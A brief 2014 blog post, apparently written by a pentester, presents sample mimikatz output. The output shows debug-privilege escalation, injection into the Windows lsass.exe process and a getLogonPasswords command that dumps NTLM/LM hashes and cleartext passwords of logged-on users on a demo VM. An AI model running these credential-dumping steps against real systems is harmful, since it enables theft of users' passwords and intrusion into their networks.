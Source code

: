 ```yaml
---
layout: post
title: "Mimikatz"
modified:
categories: 
excerpt:
tags: []
image:
  feature:
date: 2014-11-23T17:30:31+04:00
---
```

Here’s a brief post about very cool feature of a tool called mimikatz.
I’m very grateful to the tool’s author for bringing it to my attention. Until that point, I didn’t realise it was possible to recover the cleartext passwords of logged on windows users. Something that I’m sure most pentesters would find very useful.

Here’s some sample output provided by the author:
{% highlight text %}
mimikatz 1.0 x86 (pre-alpha)    /* Traitement du Kiwi */

mimikatz # privilege::debug
Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK

mimikatz # inject::process lsass.exe sekurlsa.dll
PROCESSENTRY32(lsass.exe).th32ProcessID = 488
Attente de connexion du client...
Serveur connecté à un client !
Message du processus :
Bienvenue dans un processus distant
                        Gentil Kiwi

SekurLSA : librairie de manipulation des données de sécurités dans LSASS

mimikatz # @getLogonPasswords

Authentification Id         : 0;434898
Package d'authentification  : NTLM
Utilisateur principal       : Gentil User
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
        wdigest :       password
        tspkg :         password

Authentification Id         : 0;269806
Package d'authentification  : NTLM
Utilisateur principal       : Gentil Kiwi
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
        wdigest :       waza1234/
        tspkg :         waza1234/
{% endhighlight %}
---
